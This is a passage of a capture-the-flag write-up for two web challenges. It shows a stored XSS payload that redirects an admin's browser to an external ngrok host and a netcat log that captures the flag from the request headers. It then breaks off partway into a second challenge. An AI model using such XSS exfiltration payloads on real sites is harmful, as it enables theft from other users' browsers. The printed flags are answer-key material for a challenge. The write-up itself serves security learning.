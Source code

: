 Everything hinted at an XSS, so I entered `<script>alert(1);</script>` and clicked the submit button. As expected, the javascript code was executed.

This was the part where I got stuck. I managed to exfiltrate data from the admin's browser, but I couldn't get the flag. The flag, as it turned out, was in the `User-Agent` header. My final payload:

{% highlight javascript %}
<script>
window.location.href = "https://361c4f4977c5.ngrok.io/yaku";
</script>
{% endhighlight %}

The request from the admin's browser looked like this:
{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/manual-review$ nc -nvlp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 127.0.0.1 53004 received!
GET /yaku HTTP/1.1
Host: 361c4f4977c5.ngrok.io
Upgrade-Insecure-Requests: 1
User-Agent: ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://127.0.0.1:1234/asdadasdasdasdasdasdasdadsasdasdads
Accept-Encoding: gzip, deflate, br
X-Forwarded-Proto: https
X-Forwarded-For: 34.89.215.57

^C
yakuhito@furry-catstation:~/ctf/unbr1/manual-review$
{% endhighlight %}

**Flag:** ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}

## rundown {#rundown}
{% highlight bash %}
A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.

Flag format: ctf{sha256} Goal: You have to discover a vulnerability in this simple web application and recover the flag.

The challenge was created by Bit Sentinel.
{% endhighlight %}

A great web challenge. Acessing the site with my browser only returned `APIv2 @ 2020 - You think you got methods for this?`, so I tried making a POST request with curl, saving the output to a file, and opening that file with my browser:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/rundown$ curl -X POST http://35.246.180.101:30994/ > a.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17003    0 17003    0     0   144k      0 --:--:-- --:--:-- --:--:--  144k
yakuhito@furry-catstation:~/ctf/unbr1/rundown$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
{% endhighlight %}
